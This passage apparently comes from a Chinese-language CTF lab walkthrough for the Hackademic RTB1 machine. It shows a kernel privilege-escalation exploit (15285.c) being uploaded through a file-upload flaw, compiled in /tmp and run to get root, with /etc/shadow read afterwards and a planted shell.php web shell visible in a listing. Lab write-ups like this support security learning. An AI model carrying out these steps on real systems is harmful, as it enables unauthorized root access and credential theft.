

这里我们使用对应的 Exploit（即 `15285.c`）进行提权。将 EXP 复制到当前目录，通过之前的文件上传漏洞，把 EXP 上传上去。



### 编译与执行 Exploit

我们定位到事先上传至网站目录下的 Exp 源码文件 `15285.c`。由于 `/tmp` 目录通常具备读写及执行权限，我们将源码移动至该目录并进行编译运行。

```bash
# 进入网站内容目录，发现已上传的提权脚本 15285.c
bash-4.0$ cd /var/www/html/Hackademic_RTB1/wp-content
bash-4.0$ ls -l
total 1492
-rw-rw-rw- 1 apache apache    6860 Apr 14 12:11 15285.c
-rw-rw-rw- 1 apache apache 1500061 Apr 14 11:34 Snipaste_20250526_184723.png
drwxrwxrwx 2 root   root      4096 Jan  7  2011 plugins
-rw-rw-rw- 1 apache apache    5497 Apr 14 11:38 shell.php
drwxrwxrwx 5 root   root      4096 Jan  7  2011 themes

# 将源码移动到 /tmp 目录以避免权限冲突
bash-4.0$ mv 15285.c /tmp
bash-4.0$ cd /tmp

# 使用 gcc 编译源码
bash-4.0$ gcc 15285.c -o 15285 
bash-4.0$ ls
15285
15285.c

# 执行编译后的二进制文件
bash-4.0$ ./15285 
[*] Linux kernel >= 2.6.30 RDS socket exploit
[*] by Dan Rosenberg
[*] Resolving kernel addresses...
 [+] Resolved security_ops to 0xc0aa19ac
 [+] Resolved default_security_ops to 0xc0955c6c
 [+] Resolved cap_ptrace_traceme to 0xc055d9d7
 [+] Resolved commit_creds to 0xc044e5f1
 [+] Resolved prepare_kernel_cred to 0xc044e452
[*] Overwriting security ops...
[*] Overwriting function pointer...
[*] Triggering payload...
[*] Restoring function pointer...

# 验证权限，成功获取 Root 权限
# whoami
root
# pwd
/tmp
# tail -c 5 /etc/shadow
```

